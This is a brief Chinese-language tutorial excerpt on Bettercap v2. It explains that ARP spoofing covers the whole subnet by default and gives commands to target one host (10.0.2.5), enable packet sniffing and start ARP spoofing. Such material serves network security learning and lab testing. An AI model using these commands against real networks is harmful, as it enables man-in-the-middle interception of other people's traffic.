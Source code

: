 ![](\img\Bettercap\beforearp.png)

在bettercap v2 中，如果不进行设置的话，arp欺骗是默认整个子网的，所以最好进行设置一下

    set arp.spoof.internal true
    set arp.spoof.targets 10.0.2.5
    set arp.spoof.verbose false

    net.sniff on
    arp.spoof on
